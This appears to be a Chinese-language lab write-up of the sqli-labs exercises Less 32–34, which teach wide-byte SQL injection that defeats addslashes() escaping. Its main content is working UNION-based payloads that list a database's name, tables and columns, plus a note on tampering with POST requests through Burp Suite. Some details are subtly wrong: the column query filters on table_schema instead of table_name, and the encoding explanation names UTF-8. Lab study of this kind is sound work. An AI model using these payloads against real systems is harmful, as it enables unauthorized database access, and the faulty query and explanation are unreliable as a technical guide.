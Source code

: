 
***
# less 32(绕过 addslashes())
## 原理
>宽字节绕过引号转义

addslashes()会在单引号前加一个\ 例如：I'm hacker 传入addslashes()，得到：I\'m hacker

本题想以此阻止sql注入语句闭合，但是可以使用宽字节绕过：

原理大概来说就是，一个双字节组成的字符，比如一个汉字‘我’的utf8编码为%E6%88%91 当我们使用?id=-1%E6' 这样的构造时，' 前面加的 \ 就会和%E6 合在一起，但是又不是一个正常汉字，但是起到了注掉 \ 的作用


## 步骤
1.爆库

`?id=-1%E6' union select 1,2,database() --+`

2.爆表

`?id=-1%E6' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`

3.爆列名

users 是由单引号包括住的，所以说要想办法绕过，使用0x代替''

`?id=-1%E6' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=0x7573657273--+`

不再赘述。
***
# less 33(还是绕过 addslashes())
## 原理

与上题，一摸一样

***
# less 34(POST方式绕过addslashes())
## 原理

还是宽字节注释掉斜杠，宽字节注入

## 步骤

用burpsuite抓包

修改提交的值
